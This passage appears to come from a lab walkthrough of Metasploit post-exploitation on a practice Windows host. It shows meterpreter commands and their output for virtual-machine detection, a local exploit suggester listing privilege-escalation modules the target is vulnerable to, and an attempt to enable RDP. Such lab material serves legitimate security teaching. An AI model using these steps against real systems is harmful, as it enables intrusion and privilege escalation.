 `ipconfig`

10. Let's go ahead and run a few post modules from Metasploit. First, let's run the command `run post/windows/gather/checkvm`. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.

```
meterpreter > run post/windows/gather/checkvm

[*] Checking if DARK-PC is a Virtual Machine .....
[+] This is a Xen Virtual Machine
```

`No answer needed`

11. Next, let's try: `run post/multi/recon/local_exploit_suggester`. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room `Ice`.

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.223.155 - Collecting local exploits for x86/windows...
[*] 10.10.223.155 - 30 exploit checks are being tried...
[+] 10.10.223.155 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.223.155 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

`No answer needed`

12. Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`

```
meterpreter > run post/windows/manage/enable_rdp

[-] Insufficient privileges, Remote Desktop Service was not modified
[*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20200911054026_default_10.10.223.155_host.windows.cle_458968.txt
```

`No answer needed`

13. One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?
